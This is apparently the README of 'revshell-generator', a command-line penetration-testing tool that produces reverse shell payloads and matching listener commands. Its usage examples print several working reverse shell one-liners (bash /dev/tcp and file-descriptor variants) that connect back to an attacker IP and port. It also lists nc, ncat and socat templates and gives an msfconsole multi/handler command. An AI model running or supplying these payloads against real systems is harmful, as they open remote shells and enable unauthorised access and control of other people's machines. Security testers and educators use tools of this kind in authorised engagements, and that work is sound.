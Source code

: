 # General Information

https://pypi.org/project/revshell-generator/

A command-line reverse shell generator, 
if you got tired of visiting https://www.revshells.com/ every time you need to pop up a reverse shell,
and you want to have such a generator in your terminal.


# Installation

```bash
apt install python3 python3-pip
git clone https://github.com/cyberhexe/reverse-shell-generator
cd reverse-shell-generator
pip3 install -r requirements.txt
python3 revshellgenerator.py -h
```

Or from PyPI:
```bash
apt install python3 python3-pip
pip3 install revshell-generator
revshell-generator -h
```

# Usage

### Running the reverse shell generator

```bash
$ python3 revshellgenerator.py
Welcome to the reverse shell generator script. Type 'help' or '?' to list available commands.
>> help
Documented commands (type help <topic>):
========================================g
get  help  ip  list  port  shell
>> help list
list [ reverse | listeners | shells | msfvenom ]
List the available templates, shells or listener commands.
E.g.: list shells
>> help get
get [ reverse | listeners | msfvenom ] [index]
Generate the actual command with the given options.
The first parameter specifies which type of the command it's going to be.
The [index] parameter specifies which template should be used for generating the command.
E.g.: get reverse 0
Use 'list' command for getting the index.
>>
```

### Setting reverse IP address and port

```bash
$ python3 revshellgenerator.py
Welcome to the reverse shell generator script. Type 'help' or '?' to list available commands.
>> ip 192.168.45.19
The IP address has been set as '192.168.45.19'
>> port 4200
The port has been set as '4200'
>>  
```

Alternatively, you can provide the IP/port as script arguments for not prompting them later:
`python3 revshellgenerator.py --ip 192.168.45.19 --port 4200`

### Listing available reverse shell commands
```bash
$ python3 revshellgenerator.py
Welcome to the reverse shell generator script. Type 'help' or '?' to list available commands.
>> list reverse
0 - Bash -i [linux | mac]
1 - Bash 196 [linux | mac]
2 - Bash read line [linux | mac]
3 - Bash 5 [linux | mac]4 - Bash udp [linux | mac]
5 - nc mkfifo [linux | mac]6 - nc -e [linux | mac]
7 - nc.exe -e [windows]8 - nc -c [linux | mac]
9 - ncat -e [linux | mac]10 - ncat.exe -e [windows]
... truncated ...
>> 
```

*The indexes are used while choosing the command template.*

### Listing available listener commands
```bash
$ python3 revshellgenerator.py
Welcome to the reverse shell generator script. Type 'help' or '?' to list available commands.
>> list listeners
0 - nc
1 - ncat
2 - ncat (TLS)
3 - rlwrap + nc4 - rustcat
5 - rustcat + Command History6 - pwncat
7 - windows ConPty8 - socat
9 - socat (TTY)
10 - powercat
11 - msfconsole
>>
```

### Generating reverse shell commands

```bash
$ python3 revshellgenerator.py
Welcome to the reverse shell generator script. Type 'help' or '?' to list available commands.
>> ip 192.168.45.19
The IP address has been set as '192.168.45.19'
>> port 4200
The port has been set as '4200'
>> get reverse 0
/bin/sh -i >& /dev/tcp/192.168.45.19/4200 0>&1
>> get reverse 1
0<&196;exec 196<>/dev/tcp/192.168.45.19/4200; /bin/sh <&196 >&196 2>&196
>> get reverse 2
exec 5<>/dev/tcp/192.168.45.19/4200;cat <&5 | while read line; do $line 2>&5 >&5; done
>>  
```

Alternatively, you can provide the IP/port as script arguments and call the `get reverse` command straightaway
```bash
$ python3 revshellgenerator.py --ip 192.168.45.19 --port 4200
Welcome to the reverse shell generator script. Type 'help' or '?' to list available commands.
>> get reverse 0
/bin/sh -i >& /dev/tcp/192.168.45.19/4200 0>&1
>> get reverse 1
0<&196;exec 196<>/dev/tcp/192.168.45.19/4200; /bin/sh <&196 >&196 2>&196
>> get reverse 2
exec 5<>/dev/tcp/192.168.45.19/4200;cat <&5 | while read line; do $line 2>&5 >&5; done
>>  
```

### Generating listeners commands
```bash
$ python3 revshellgenerator.py --ip 192.168.45.19 --port 5050
Welcome to the reverse shell generator script. Type 'help' or '?' to list available commands.
>> get listeners 10
powercat -l -p 5050
>> get listeners 1
ncat -lvnp 5050
>> get listeners 11
msfconsole -q -x "use multi/handler; set payload {payload}; set lhost 192.168.45.19; set lport 5050; exploit"  
```
